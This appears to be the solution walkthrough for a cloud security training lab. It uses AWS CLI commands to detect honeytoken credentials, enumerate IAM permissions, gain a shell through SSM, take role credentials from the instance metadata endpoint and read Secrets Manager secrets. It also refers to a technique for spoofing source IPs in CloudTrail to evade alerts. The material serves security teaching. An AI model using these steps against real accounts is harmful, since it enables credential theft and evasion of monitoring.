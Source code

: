 ## Easy Path

1. Iterate through the starting credentials to identify the honeytokens. There are a few ways to do this. Pacu has a
   module for this process, but we reccomend doing it manually in order to understand the process here.

    ```bash
    # There are services which do not log to CloudTrail. Honeytokens almost never grant permissions to ANY services, let alone these services which do not log to CloudTrail. Thus ,the call below will fail for a honeytoken, but will reveal the ARN of the principal associated with the credentials. This information is usually sufficient to infer if the principal is only being used for honeytokens.
    aws --profile cg1 --region us-east-1 sdb list-domains
    # The above command reveals that user1 is "user/canarytokens.com@@kz9r8ouqnhve4zs1yi4bzspzz". These tokens are generated by a third party honeytoken service "canarytokens.com" (as you may have guessed). 
   
    aws --profile cg2 --region us-east-1 sdb list-domains
    # The above command reveals that user2 is "user/SpaceCrab/l_salander". This indicates that the honeytoken was generated by SpaceCrab (a tool which appears to now be outdated).
   
    aws --profile cg3 --region us-east-1 sdb list-domains
    # The above command reveals that user3 is "user/cd1fceca-e751-4c1b-83e4-78d309063830". Although not nearly as suspicious as the first two users, this UUID format indicated that the user is being automatically generated. This UUID format is also used by the SpaceSiren honeytoken tool.   
   
    aws --profile cg4 --region us-east-1 sdb list-domains
    # The above command reveals that user4 has permissions to the sdb service, and is therefore likely a legitimate user.
    ```

2. Now that you have identified which pair of credentials are honeytokens and which are likely legitimate, you can
   perform some enumeration to determine who you are, what group you are a part of, what permissions are assigned to
   that group, what EC2 instances exist, and which one to target in the next step.

    ```bash
    # The command below will reveal the ARN of your current principal. 
    aws --profile cg4 sts get-caller-identity
   
    # The command below will list the groups to which your user belongs.
    aws --profile cg4 iam list-groups-for-user --user-name r_waterhouse
   
    # The command below will list the policies attached to your group.
    aws --profile cg4 iam list-group-policies --group-name cg-developers
   
    # The command below will list out the developer policy in detail. You will see a statement focusing on SSM which includes "ssm:StartSession". This will be used later to get a shell on an EC2 instance.
    aws --profile cg4 iam get-group-policy --group-name cg-developers --policy-name developer_policy
   
    # The command below will reveal that the AWS managed policy "ReadOnlyAccess" is attached to the cg-developers group.
    aws --profile cg4 iam list-attached-group-policies --group-name cg-developers
   
    # The command below will list all EC2 instances, revealing the instance that we will target in this section "easy_path-cg-detection-evasion"
    aws --profile cg4 --region us-east-1 ec2 describe-instances
    ```

3. Use SSM to get a shell on the "easy_path" instance.

For this to work you'll first need to ensure you have the
[ssm plugin](https://docs.aws.amazon.com/systems-manager/latest/userguide/session-manager-working-with-install-plugin.html)
installed. If it is not installed you may receive a permission error about terminating sessions.

    ```bash
    # The command below will result in a shell on the EC2 instance of your choice. 
    aws --profile cg4 --region us-east-1  ssm start-session --target [INSTANCE_ID]
    ```

5. Determine if there is a role associated with this EC2 instance.

    ```bash
    # The command below will reach out to the IMDS endpoint, and will return the name of an instance profile.
    curl http://169.254.169.254/latest/meta-data/iam/security-credentials
   
    # The command below will reach out to the IMDS endpoint, and will return credentials for the role associated with this instance.
    curl http://169.254.169.254/latest/meta-data/iam/security-credentials/[INSTANCE_PROFILE]
    ```


5. Install the AWS CLI, list all secrets, and read the contents of the associated secrets. This step is another
   opportunity to trigger alerts. If you use the credentials associated with this instance from an unknown IP, an alert
   will be triggered. This is why we install the CLI on the EC2 instance and take actions from there.

    ```bash
    # The command below will confirm that the AWS CLI is not installed.
    aws --version
   
    # The command below will install the AWS CLI.
    sudo yum install awscli -y
   
    # The command below will confirm that the AWS CLI is installed.
    aws --version
   
    # The command below will list all secrets in secrets manager. 
    aws --region us-east-1  secretsmanager list-secrets
   
    # The command below will read out the value for the secret associated with this path. 
    aws --region us-east-1  secretsmanager get-secret-value --secret-id [SECRET_ARN]
    ```

## Hard Path

Steps 1-4 are almost identical for the "hard path" of this scenario. The only difference is, on step 3, you will target
the "hard_path-cg-detection-evasion" instance. In this light, we will start the steps for the "hard path" on step 5,
after you have retrieved the credentials from IMDS.

5. Check if the AWS CLI is installed. Realize you have no internet access. Unlike the "easy path", you cannot take
   actions with the CLI from this instance. Yet, like the "easy path", any event logged in CloudTrail, using credentials
   from this instance and from an IP other than that of this EC2 instance, will trigger alerts.

    ```bash
    # The command below will confirm that the AWS CLI is installed. However, attempts to use it will fail. This is because the instance has no access to the public internet. 
    aws --version
   
    # You can run any aws command from this instance to confirm that it will not work.
    aws sts get-caller-identity
    ```

6. There is a way to spoof arbitrary IP addresses in CloudTrail, and you can read about it
   in [this blog post](https://www.hunters.security/en/blog/hunters-research-detecting-obfuscated-attacker-ip-in-aws). Instead of
   walking through this entire technique in duplicate here, we have created a public github repo with terraform code
   that will deploy the necessary resources to perform the bypass.

   Follow the README.md for the solution
   https://github.com/RhinoSecurityLabs/cloudgoat/tree/master/scenarios/detection_evasion/solution/README.md

7. Once you have deployed the terraform resources mentioned above, you should have a shell on the ec2 instance that was
   created. Run the following on that instance.

    ```bash
    # The command below will list all secrets in secretsmanager.
    aws --region us-east-1 secretsmanager list-secrets
   
    # The command below will
    aws --region us-east-1 secretsmanager get-secret-value --secret-id [ARN_OF_TARGET_SECRET]
    ```

At this point you have finished the scenario. 
